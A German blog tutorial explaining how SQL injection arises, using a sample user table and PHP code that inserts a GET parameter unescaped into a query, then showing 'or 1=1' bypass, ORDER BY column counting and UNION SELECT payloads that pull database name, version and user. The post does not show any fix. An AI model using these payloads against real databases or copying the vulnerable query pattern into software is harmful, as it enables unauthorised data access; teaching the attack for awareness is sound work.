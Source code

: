 ```yaml
---
layout: post
title: SQL Injections und wie sie entstehen
author: Manuel Zarat
category: tutorials
tags: sicherheit
permalink: /post/sqlinjections
---
```


<p>Ich habe ein Beispiel auf <a href="http://www.sqlfiddle.com/#!9/70f022" target="_blank" rel="noopener">SQL Fiddle</a> erstellt.</p>
<!--excerpt_separator-->
<pre>CREATE TABLE `user` (<br />  `id` INT NOT NULL AUTO_INCREMENT,<br />  `mail` VARCHAR(50) NULL,<br />  `pass` VARCHAR(50) NULL,<br />  PRIMARY KEY (`id`));<br />insert into user (mail,pass) values ( 'user1@zarat.ml', md5('user1') );<br />insert into user (mail,pass) values ( 'user2@zarat.ml', md5('user2') );<br />insert into user (mail,pass) values ( 'user3@zarat.ml', md5('user3') );</pre>
<p>Nehmen wir an, wir nutzen aus Unwissenheit folgenden SQL Query:</p>
<pre>$id = $_GET['id'];
mysql_Query("SELECT * FROM user WHERE id= $id"); //oder
mysql_Query("SELECT * FROM user WHERE id= '$id'");
</pre>
<p>Anhand des Ergebnisses dieser Abfrage entscheiden wir, ob der User eingelogt ist oder nicht. Ein Hacker würde versuchen, den Query zu verändern indem er die als GET Parameter übergebene id manipuliert.</p>
<pre>SELECT * FROM user WHERE id=1 or 1=1; //oder
SELECT * FROM user WHERE id='1' or '1'='1';</pre>
<p>Es ist egal, welche id übergeben wird, der Query wird so abgeändert, das das nachfolgende or 1=1 alle vorangehenden Statements überschreibt. Wenn diese Abfrage an den SQL Interpreter weitergeleitet wird, bedeutet das, man kann sogut wie alles in den Query interpretieren. Ich möchte jetzt den Namen der Datenbank wissen. Dazu muss ich zuerst herausfinden, wieviele Spalten der Datensatz hat.</p>
<pre>SELECT * FROM user WHERE id=1 or 1=1 order by 1; //oder
SELECT * FROM user WHERE id='1' or '1'='1' order by 1;</pre>
<p>Diese ORDER BY Klausel erhöhe ich dabei jedes mal um 1, bis ein Fehler kommt. Ich weiß jetzt die letzte Zahl ist die Anzahl an Spalten! Somit kann ich den Query abändern und mit einem UNION SELECT das Ergebnis "überschreiben".</p>
<pre>SELECT * FROM user WHERE id=1 or 1=1 union select 1,2,3; //oder
SELECT * FROM user WHERE id='1' or '1'='1' union select 1,2,3;</pre>
<p>Dieser Query wäre zwar aufwendig und unnötig aber noch kein "Fehler" in dem Sinn. Statt die gefundenen Variablen anhand der Nummerierung ins Ergebnis zu schreiben nutze ich interne Funktionen um meine Informationen zui erhalten. Erstmal sind folgende Funktionen von Bedeutung</p>
<ul>
<li>database()</li>
<li>user()</li>
<li>version()</li>
</ul>
<pre>SELECT * FROM user WHERE id=1 or 1=1 union select database(),version(),user(); //oder
SELECT * FROM user WHERE id='1' or '1'='1' union select database(),version(),user();</pre>
<p>Damit haben wir vollen Zugriff auf die Datenbank.</p>
